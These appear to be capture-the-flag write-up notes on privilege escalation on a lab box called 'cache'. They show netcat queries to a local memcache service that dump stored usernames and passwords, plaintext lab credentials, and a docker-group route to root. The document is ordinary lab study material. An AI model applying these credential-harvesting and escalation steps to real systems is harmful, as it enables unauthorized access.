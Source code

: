 # 15 - PrivEsc


# Ash
```bash
www-data@cache:/$ su - ash
Password: H@v3_fun
ash@cache:~$ 
```



# Memcache
![](vx_images/3829490606696.png)


Port 11211 is memcache. Hacktricks has a post about it https://book.hacktricks.xyz/pentesting/11211-memcache#manual

# Luffy password
```bash
ash@cache:~/.ssh$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
ash@cache:~/.ssh$ 
ash@cache:~/.ssh$ echo "get user" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE user 0 5
luffy
END
ash@cache:~/.ssh$ 
ash@cache:~/.ssh$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

luffy: 0n3_p1ec3



# Luffy
![](vx_images/4230635925003.png)

luffy is in docker group. The members of docker group can execute docker which is a privileged process and in the list of gtfobins.

# Root

![](vx_images/768287379845.png)